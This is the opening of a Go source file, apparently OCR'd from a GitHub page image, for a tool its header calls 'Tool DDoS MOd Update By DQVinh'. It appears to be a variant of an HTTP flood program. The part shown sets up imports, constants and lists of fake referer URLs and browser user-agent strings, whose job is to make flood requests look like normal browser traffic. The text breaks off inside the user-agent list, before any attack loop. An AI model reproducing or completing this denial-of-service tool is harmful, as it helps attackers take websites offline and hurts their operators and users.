 package main

/*
Tool DDoS MOd Update By DQVinh 
*/

import (
	"flag"
	"fmt"
	"io/ioutil"
	"math/rand"
	"net/http"
	"net/url"
	"os"
	"os/signal"
	"strconv"
	"strings"
	"sync/atomic"
	"syscall"
)

const __version__ = "1.0.1"

// const acceptCharset = "windows-1251,utf-8;q=0.7,*;q=0.7" // use it for runet
const acceptCharset = "ISO-8859-1,utf-8;q=0.7,*;q=0.7"

const (
	callGotOk uint8 = iota
	callExitOnErr
	callExitOnTooManyFiles
	targetComplete
)

// global params
var (
	safe            bool     = false
	headersReferers []string = []string{
		"http://www.google.com/?q=",
		"http://www.usatoday.com/search/results?q=",
		"http://engadget.search.aol.com/search?q=",
		//"http://www.google.ru/?hl=ru&q=",
		//"http://yandex.ru/yandsearch?text=",
	}
	headersUseragents []string = []string{
		"Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1.9.1.3) Gecko/20090913 Firefox/3.5.3",
		"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.79 Safari/537.36 Vivaldi/1.3.501.6",
		"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.24 (KHTML, like Gecko) Ubuntu/10.10 Chromium/12.0.703.0 Chrome/12.0.703.0 Safari/534.24",
		"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/13.0.782.20 Safari/535.1",
		"Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/536.5 (KHTML, like Gecko) Chrome/19.0.1084.9 Safari/536.5",
		"Mozilla/5.0 (X11; Linux x86_64; en-US; rv:2.0b2pre) Gecko/20100712 Minefield/4.0b2pre",
		"Mozilla/5.0 (X11; Linux x86_64; rv:10.0.1) Gecko/20100101 Firefox/10.0.1",
		"Mozilla/5.0 (X11; Linux x86_64; rv:11.0a2) Gecko/20111230 Firefox/11.0a2 Iceweasel/11.0a2",
		"Mozilla/5.0 (X11; Linux x86_64; rv:2.0.1) Gecko/20100101 Firefox/4.0.1",
		"Mozilla/5.0 (X11; Linux x86_64; rv:2.2a1pre) Gecko/20100101 Firefox/4.2a1pre",
		"Mozilla/5.0 (X11; Linux x86_64; rv:5.0) Gecko/20100101 Firefox/5.0 Iceweasel/5.0",
		"Mozilla/5.0 (X11; Linux x86_64; rv:7.0a1) Gecko/20110623 Firefox/7.0a1",
		"Mozilla/5.0 (X11; U; Linux x86_64; en-US) AppleWebKit/532.9 (KHTML, like Gecko) Chrome/5.0.309.0 Safari/532.9",
		"Mozilla/5.0 (X11; U; Linux x86_64; en-US) AppleWebKit/534.15 (KHTML, like Gecko) Chrome/10.0.613.0 Safari/534.15",
		"Mozilla/5.0 (X11; U; Linux x86_64; en-US) AppleWebKit/534.7 (KHTML, like Gecko) Chrome/7.0.514.0 Safari/534.7",